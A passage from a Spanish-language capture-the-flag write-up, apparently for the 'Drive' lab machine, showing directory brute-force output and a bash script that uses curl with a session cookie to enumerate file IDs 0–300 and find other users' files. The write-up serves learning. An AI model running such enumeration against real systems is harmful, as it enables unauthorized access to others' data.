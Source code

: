 ~~~bash
/uploades/            (Status: 302) [Size: 0] [--> /login/]
/uploadimages/        (Status: 302) [Size: 0] [--> /login/]
/uploadimg/           (Status: 302) [Size: 0] [--> /login/]
/uploadphoto/         (Status: 302) [Size: 0] [--> /login/]
/uploadimage/         (Status: 302) [Size: 0] [--> /login/]
/uploads/             (Status: 302) [Size: 0] [--> /login/]
/uploads2/            (Status: 302) [Size: 0] [--> /login/]
/uploadpic/           (Status: 302) [Size: 0] [--> /login/]
/uploads_user/        (Status: 302) [Size: 0] [--> /login/]
/uploads_forum/       (Status: 302) [Size: 0] [--> /login/]
/uploads_group/       (Status: 302) [Size: 0] [--> /login/]
/uploads_admin/       (Status: 302) [Size: 0] [--> /login/]
/uploads_event/       (Status: 302) [Size: 0] [--> /login/]
/uploads_video/       (Status: 302) [Size: 0] [--> /login/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
~~~

- Después del altercado, creamos una cuenta y en seguida nos logueamos:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/4ccdd075-abdf-44cd-afbc-d1f6b8504393)

- Podemos subir archivos:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/282d8e21-b56e-4853-b15f-e28905fa1ed4)

- Revisando un poco más la página, veo que existe una especie de carpeta compartida donde vemos un archivo del administrador, y ese número 100 en la URL me quiere decir algo:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/196b8031-7d78-4c9d-b89d-f37b3c0dc4ef)

- Hice un script para enumerar los archivos exixtentes:

~~~bash
#!/bin/bash

check_file() {
  x=$1
  rsp=$(curl -s -o /dev/null -w "%{http_code}" -X GET "http://drive.htb/${x}/getFileDetail/" -H "Cookie: sessionid=ra10h8mnoi6ihox4fuowap771wmejd34")
  if [ "$rsp" -ne 500 ]; then
    echo -ne "\n[+] El archivo ${x} existe ---> Status code = ${rsp}\n"
  else
    echo -ne "."
  fi
}

export -f check_file

seq 0 300 | xargs -P 15 -I {} bash -c 'check_file "$@"' _ {}
~~~
